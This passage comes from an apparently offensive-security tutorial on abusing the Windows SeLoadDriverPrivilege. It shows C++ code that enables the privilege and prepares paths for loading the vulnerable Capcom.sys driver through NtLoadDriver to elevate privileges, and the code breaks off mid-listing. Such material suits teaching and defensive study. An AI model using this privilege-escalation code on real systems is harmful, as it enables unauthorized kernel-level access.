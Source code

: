 We compile the above, execute and the privilege `SeLoadDriverPrivilege` is now enabled:

![](../../.gitbook/assets/screenshot-from-2018-12-17-22-45-54.png)

### Capcom.sys Driver Exploit

To further prove the `SeLoadDriverPrivilege` is dangerous, let's exploit it to elevate privileges.

Let's build on the previous code and leverage the Win32 API call `ntdll.NtLoadDriver()` to load the malicious kernel driver `Capcom.sys`. Note that lines 55 and 56 of the `privileges.cpp` are:

```cpp
PCWSTR pPathSource = L"C:\\experiments\\privileges\\Capcom.sys";
PCWSTR pPathSourceReg = L"\\registry\\machine\\System\\CurrentControlSet\\Services\\SomeService";
```

The first one declares a string variable indicating where the vulnerable Capcom.sys driver is located on the victim system and the second one is a string variable indicating a service name that will be used \(could be any service\) when executing the exploit:

{% code title="privileges.cpp" %}
```cpp
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>
#include <ntsecapi.h>
#include <stdlib.h>
#include <locale.h>
#include <iostream>
#include "stdafx.h"

NTSTATUS(NTAPI *NtLoadDriver)(IN PUNICODE_STRING DriverServiceName);
VOID(NTAPI *RtlInitUnicodeString)(PUNICODE_STRING DestinationString, PCWSTR SourceString);
NTSTATUS(NTAPI *NtUnloadDriver)(IN PUNICODE_STRING DriverServiceName);

int main()
{
    TOKEN_PRIVILEGES tp;
    LUID luid;
    bool bEnablePrivilege(true);
    HANDLE hToken(NULL);
    OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken);

    if (!LookupPrivilegeValue(
        NULL,            // lookup privilege on local system
        L"SeLoadDriverPrivilege",   // privilege to lookup 
        &luid))        // receives LUID of privilege
    {
        printf("LookupPrivilegeValue error: %un", GetLastError());
        return FALSE;
    }
    tp.PrivilegeCount = 1;
    tp.Privileges[0].Luid = luid;

    if (bEnablePrivilege) {
        tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    }

    // Enable the privilege or disable all privileges.
    if (!AdjustTokenPrivileges(
        hToken,
        FALSE,
        &tp,
        sizeof(TOKEN_PRIVILEGES),
        (PTOKEN_PRIVILEGES)NULL,
        (PDWORD)NULL))
```